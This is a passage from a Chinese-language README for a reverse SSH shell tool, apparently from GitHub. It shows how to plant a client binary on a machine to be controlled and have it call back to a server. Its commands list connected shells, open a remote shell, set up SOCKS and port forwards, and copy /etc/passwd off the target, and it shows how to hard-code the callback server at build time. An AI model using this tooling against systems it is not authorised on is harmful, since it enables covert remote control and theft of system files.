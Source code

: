 将客户端二进制文件放在您想要控制的地方，然后连接到服务器。

```
./client your.rssh.server.com:3232
```

然后，您可以使用`ls`查看哪些反向 shells 连接到了您:

```
ssh your.rssh.server.com -p 3232 ls -t
                                Targets
+------------------------------------------+------------+-------------+
| ID                                       | Hostname   | IP Address  |
+------------------------------------------+------------+-------------+
| 0f6ffecb15d75574e5e955e014e0546f6e2851ac | root.wombo | [::1]:45150 |
+------------------------------------------+------------+-------------+

```

然后典型的 ssh 命令工作，只需指定您的 rssh 服务器作为跳转主机。

```
# Connect to full shell
ssh -J your.rssh.server.com:3232 root.wombo

# Run a command without pty
ssh -J your.rssh.server.com:3232 root.wombo help

# Start remote forward 
ssh -R 1234:localhost:1234 -J your.rssh.server.com:3232 root.wombo

# Start dynamic forward 
ssh -D 9050 -J your.rssh.server.com:3232 root.wombo

# SCP 
scp -J your.rssh.server.com:3232 root.wombo:/etc/passwd .

#SFTP
sftp -J your.rssh.server.com:3232 root.wombo:/etc/passwd .

```

## 奇特的特征

### 默认服务器

在构建时指定默认服务器:

```
$ RSSH_HOMESERVER=your.rssh.server.com:3232 make

# Will connect to your.rssh.server.com:3232, even though no destination is specified
$ bin/client

# Behaviour is otherwise normal; will connect to the supplied host, e.g example.com:3232
$ bin/client example.com:3232
```
